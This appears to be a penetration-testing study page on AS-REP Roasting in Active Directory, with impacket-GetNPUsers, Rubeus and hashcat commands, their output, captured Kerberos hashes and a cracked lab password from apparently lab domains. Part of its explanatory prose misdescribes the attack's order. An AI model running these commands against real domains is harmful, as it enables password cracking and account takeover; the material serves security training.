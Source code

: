 # AS-REP Roasting



## Recap

The first step of authentication in Kerberos is to send an AS-REQ to the domain controller. If the authentication is successful, a AS-REP is sent to the AD user containing the session key and Ticket Granting Ticket (TGT). This is called _**Kerberos Pre-authentication**_.



## AS-REP Roasting

_**A user is vulnerable to AS-REP Roasting if Kerberos Pre-authentication is disabled.**_

AS-REP Roasting is when an attacker sends a AS-REQ on behalf of another user after acquiring a  AS-REP from the server. The attacker can use an offline password against the encrypted response.

## Attacking with Impacket-GetNPUsers

```powershell
kali@kali:~$ impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
Name  MemberOf  PasswordLastSet             LastLogon                   UAC      
----  --------  --------------------------  --------------------------  --------
dave            2022-09-02 19:21:17.285464  2022-09-07 12:45:15.559299  0x410200 
```

The output shows that dave has kerberos pre-authentication set to disabled. He's vulnerable to AS-Roasting!

### Cracking with Hashcat

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
</strong>...

$krb5asrep$23$dave@CORP.COM:b24a619cfa585dc1894fd6924162b099$1be2e632a9446d1447b5ea80b739075ad214a578f03773a7908f33...751a876a756757dc22:Flowers1
</code></pre>

##

## AS-REP Roasting without credentials

If we have a user list but no credentials we can look for users that don't require Kerberos pre-authentication "AS-REP Roasting"

```sh
kali@kali:~$ impacket-GetNPUsers -dc-ip htb.local -request 'htb.local/'                                                                     
Impacket v0.11.0 - Copyright 2023 Fortra

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2024-02-07 22:18:28.185616  2024-02-07 09:14:25.279474  0x410200 



$krb5asrep$23$svc-alfresco@HTB.LOCAL:20a92d6ea68903d4bb8aa15dc9592fdf$98ce719d2b34cee82612532f8b7bb1858466e7a001b307bbfde16fa469dd86f6843c8b4b79ead213c27df71639156513bd41f39d236f3cde4158a9da513c886f893ce39fa3ceadb528417d02ef50b91d5df0e2eec926a42cc19108783b45f582ea59d86fd2111e83ea4d54ebb59b4ad5eb78e02213ba44488e74ce73c3f8fa8775bc780f0822400662cb08e1f0d59b815a65d4eec9abc6e9211bdfd9e963d849970791873dd108e802b16c8f6686393ac8a9c1bcbc9d509542188da56fdb7066f025ce0200e397607448672a66eb2f08642a5b57a951e277337560387e2878400f4c6e4f49dc



```

##

## AS-REP Roasting on Windows

We can use Rubeus to perform AS-REP Roasting on Windows.

```powershell
PS C:\Users\jeff> cd C:\Tools

PS C:\Tools> .\Rubeus.exe asreproast /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: AS-REP roasting

[*] Target Domain          : corp.com

[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : dave
[*] DistinguishedName      : CN=dave,CN=Users,DC=corp,DC=com
[*] Using domain controller: DC1.corp.com (192.168.50.70)
[*] Building AS-REQ (w/o preauth) for: 'corp.com\dave'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$dave@corp.com:AE43CA9011..AGD91
```

### Cracking with Hashcat

We can then Ex-filtrate the hash and crack with hashcat.

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
</strong>...

$krb5asrep$23$dave@CORP.COM:b24a619cfa585dc1894fd6924162b099$1be2e632a9446d1447b5ea80b739075ad214a578f03773a7908f33...751a876a756757dc22:Flowers1
</code></pre>
